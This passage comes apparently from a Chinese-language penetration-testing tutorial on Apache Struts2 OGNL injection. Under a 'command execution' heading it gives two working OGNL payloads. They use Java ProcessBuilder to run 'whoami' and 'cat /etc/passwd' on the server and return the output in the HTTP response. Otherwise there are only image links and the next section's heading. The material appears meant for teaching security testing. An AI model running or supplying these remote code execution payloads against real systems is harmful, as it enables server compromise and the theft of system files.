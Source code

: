 > <img src="1626014269_60eb023d24cdc4abe3652.png!small" alt="image-20210708140918567" style="zoom:67%;" />
>
> <img src="1626014270_60eb023e6f63d4a7cc561.png!small" alt="image-20210708140928436" style="zoom:67%;" />
> 
> #### 执行命令
>
> ```
>%{
> #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
>#b=#a.getInputStream(),
> #c=new java.io.InputStreamReader(#b),
>#d=new java.io.BufferedReader(#c),
> #e=new char[50000],
> #d.read(#e),
> #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
>#f.getWriter().println(new java.lang.String(#e)),
> #f.getWriter().flush(),#f.getWriter().close()
>}
> ```
>
> <img src="1626014271_60eb023fb77107b918233.png!small" alt="image-20210708141252287" style="zoom:67%;" />
>
> <img src="1626014272_60eb0240bc31323229022.png!small" alt="image-20210708141301722" style="zoom:67%;" />
> 
> ```
> %{
> #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),
> #b=#a.getInputStream(),
> #c=new java.io.InputStreamReader(#b),
> #d=new java.io.BufferedReader(#c),
> #e=new char[50000],
> #d.read(#e),
> #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
> #f.getWriter().println(new java.lang.String(#e)),
> #f.getWriter().flush(),#f.getWriter().close()
>}
> ```
>
> <img src="1626014273_60eb0241efab877d0031f.png!small" alt="image-20210708141616746" style="zoom:67%;" />
>
> <img src="1626014275_60eb02433578ad9eac538.png!small" alt="image-20210708141958858" style="zoom:67%;" />



## 13.2、弱口令检测
